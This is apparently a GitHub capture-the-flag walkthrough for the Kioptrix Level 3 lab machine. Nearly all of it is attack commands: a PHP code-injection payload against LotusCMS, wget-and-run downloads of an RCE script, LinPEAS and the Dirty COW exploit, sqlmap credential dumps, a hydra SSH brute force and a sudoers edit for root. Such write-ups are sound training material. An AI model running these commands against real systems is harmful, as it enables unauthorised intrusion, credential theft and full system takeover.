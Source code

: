 
# 🛡️ Kioptrix Level 3 Walkthrough (CTF Guide)

## 🧭 1. Initial Recon

### Edit `/etc/hosts` to Resolve Domain
```bash
sudo nano /etc/hosts
```
Add the following:
```
192.168.204.137 kioptrix3.com
```

### Ping Discovery
```bash
sudo nmap -sn 192.168.204.0/24
```

### Port Scan
```bash
nmap -T4 -sS -Pn -p- 192.168.204.137
nmap -T4 -sS -A -Pn -p- 192.168.204.137
```

## 🧪 2. Web Enumeration

### Check for LFI / RCE

Try this payload in the browser:

```http
http://kioptrix3.com/index.php?page=index');echo system('id');//
```

If successful, you'll get output like:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## ⚙️ 3. Exploiting LotusCMS (if detected)

### Search for Exploit
```bash
searchsploit locuscms
searchsploit -m php/remote/18565.rb
```

### Alternatively, Use a Shell Script Exploit
```bash
wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
chmod +x lotusRCE.sh
./lotusRCE.sh http://192.168.204.137 /
```

## 🔧 4. Reverse Shell Upgrade (After Gaining Access)

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Then:
1. Press `Ctrl + Z`
2. Run:
```bash
stty raw -echo; fg
```
3. Press `Enter` to return to shell

## 🔍 5. Privilege Escalation - Part 1

### Download LinPEAS
On attack box:
```bash
python3 -m http.server 8080
```
On target machine:
```bash
wget http://192.168.204.136:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > result.txt
```

### Grep for Credentials
```bash
grep -Ei 'password|passwd|shadow|id_rsa|private|secret|credential|key|token' result.txt
```

### Found in Web Config:
```bash
cat /home/www/kioptrix3.com/gallery/gconfig.php
```

## 🔐 6. SQL Injection to Dump DB

Using SQLMap:
```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbms=mysql --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbs --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery --tables --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T dev_accounts --dump --output-dir=sqlmap
```

Example credentials found:
```
Username: loneferret
Password: starwars
```

## 🔐 7. SSH Login / Brute Force

### Login with Password
```bash
ssh loneferret@192.168.204.137 -oHostKeyAlgorithms=+ssh-rsa
```

### Brute Force with Hydra (Optional)
```bash
hydra -l loneferret -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 192.168.204.137 -t 4 ssh
```

## 🔓 8. Privilege Escalation - Part 2

### Check `sudo -l`
```bash
sudo -l
```
Example output:
```
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

### Escalate with `ht`
```bash
sudo ht /etc/sudoers
```

#### Edit to Add:
```
loneferret ALL=(ALL:ALL) NOPASSWD: ALL
```

Save and exit. Then:

```bash
sudo su
```

## 🧨 9. Dirty COW Exploit (Kernel Priv Esc)

### Check Kernel
```bash
uname -a
cat /proc/version_signature
```

### Download Exploit
```bash
wget http://192.168.204.136:8080/dirty.c
```

### Compile Exploit
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

### Run Exploit
```bash
./dirty password
```

Login with:
```bash
su firefart
```

## 🗂️ 10. Directory Brute-Forcing

```bash
ffuf -u http://kioptrix3.com/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt -mc 200,204,301,302
```

## ✅ Summary

| Step                        | Tool/Command                                      |
|----------------------------|---------------------------------------------------|
| Host Discovery             | `nmap -sn`                                        |
| Port Scan                  | `nmap -sS -Pn -p-`                                |
| Web Exploit (RCE)          | `http://...system('id');//`                       |
| LotusCMS Exploit           | `lotusRCE.sh`                                     |
| Shell Upgrade              | `python -c 'import pty...`                        |
| LinPEAS + Grep             | `./linpeas.sh`, `grep -Ei 'password...'`          |
| SQL Injection              | `sqlmap -u ...`                                   |
| SSH Access                 | `ssh loneferret@...`                              |
| Privilege Escalation (ht)  | `sudo ht /etc/sudoers`                            |
| Privilege Escalation (dirtycow) | `gcc ...`, `./dirty`                      |
